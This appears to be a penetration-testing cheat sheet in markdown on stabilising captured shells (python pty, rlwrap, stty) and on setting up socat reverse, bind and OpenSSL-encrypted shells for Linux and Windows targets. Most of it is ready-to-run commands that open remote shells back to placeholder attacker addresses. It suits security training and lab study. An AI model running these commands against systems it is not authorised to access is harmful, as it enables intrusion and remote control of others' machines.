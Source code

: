 # Shell Stabilizing Techniques

### Technique 1: Python

**Step 1: uses Python to spawn a better featured bash. Some versions may used python2 or python3, change if necessary**
```JavaScript
python -c 'import pty;pty.spawn("/bin/bash")'
````

**Step 2: Gives us access to commands such as clear**
```JavaScript
export TERM=xterm
```

**Step 3:**

- Background the shell with CTRL + Z

- In your own terminal, use the command below. This will turn off your own terminal and foregrounds the shell 
```JavaScript
stty raw -echo; fg
```


### Technique 2: rlwrap

**Install rlwrap**
```JavaScript
sudo apt install rlwrap
```

**Usage**
```JavaScript
rlwrap nc -lvnp <port>
```
**Use the third step in technique 1 as the final step for Technique 2**


### Technique 3: Socat

* This tecnique is limited to linux machines
* You must also transfer the socat static compiled binary up to the target machine



## Socat Reverse Shells

**Basic Syntax: The following is equivalent to nc -nlvp <port>**
```JavaScript
socat TCP-L:<port> -
```
  
On Windows we would use this command to connect back
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

This is the equivalent command for a Linux Target
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
  
  
## Socat Bind Shells

On a Linux target
```JavaScript
socat TCP-L:<PORT> EXEC:"bash -li"
```
  
On a Windows target
```JavaScript
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
  
And from our attacking machine to connect to your listener...
```JavaScript
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## Fully Stabilized Socat Shell Listener
  
* We're connecting two points together
* We are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty

```JavaScript
socat TCP-L:<port> FILE:`tty`,raw,echo=0  
```
  
```JavaScript
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
  
The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

  
## Socat Encrypted Shells

**Step 1: Generate a certificate in order to use encrypted shells**
  
```JavaScript
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
  
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate.
  
**Step 2: Merge the two created files into a single .pem file:**
  
```JavaScript
cat shell.key shell.crt > shell.pem
```
  
**Step 3: Configure reverse shell listener**

```JavaScript
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
  
This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.
  
**Step 4: Connect back**
  
```JavaScript
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
  
The below technique is the syntax for a bind shell

**Target**

```JavaScript
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
  
**Attacker**

```JavaScript
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
